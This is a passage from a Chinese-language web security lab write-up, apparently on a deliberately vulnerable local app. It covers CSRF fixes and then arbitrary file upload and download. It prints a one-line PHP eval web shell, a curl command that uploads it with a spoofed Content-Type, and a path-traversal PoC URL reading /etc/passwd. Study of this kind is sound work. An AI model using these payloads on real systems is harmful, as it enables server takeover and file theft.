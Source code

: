 ### 修复意见
1. 使用csrfToken校验

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757299473649-a2cfabb7-5d68-4afc-a6be-b3f71b5d1be4.png)

2. 校验referer判断请求是否来自本站（可以伪造）

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757299588739-1dbefd74-4647-4275-924c-46eac12ddd02.png)

## 任意文件操作
### 漏洞成因
1. 任意文件上传

服务器没有正确地检查和限制上传的文件类型、大小、后缀名等信息：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757318153399-2fd7e9ee-47a8-4eea-9abb-1003f670ff48.png)

新建一个名为`ant.php`的Shell，其内容为：

```php
<?php eval($_POST['ant']); ?>
```

上传该Shell：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757316009983-accd9287-03af-4736-aeb5-c122ff7e4466.png)

上传成功：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757315997450-eb30d1f1-27b6-44d5-af63-e32faf884f04.png)

2. 文件类型判断可绕过

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757318384461-d1c13cda-f512-4bb1-ad9c-7f6d18c7f586.png)

`Content-Type`头部并不是完全可靠的安全措施，可以使用工具手动修改上传请求中的`Content-Type`，例如：

```bash
curl -X POST -F "file=@ant.php" -H "Content-Type: image/jpeg" http://127.0.0.1:8888/vulnapi/upload/uploadVul2
```

服务器会误以为上传的文件是 JPEG 图片，而实际上传的可能是一个 PHP 脚本，绕过了服务器端的文件类型检查。应该要用魔术数字检查等方法更为严谨。 

3. 任意文件下载

文件路径没做限制，可以通过../递归下载任意文件：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757318805335-75aae041-00c0-4cf9-88cd-c8099cb5ecfa.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/Traversal/download?filename=../../etc/passwd
```
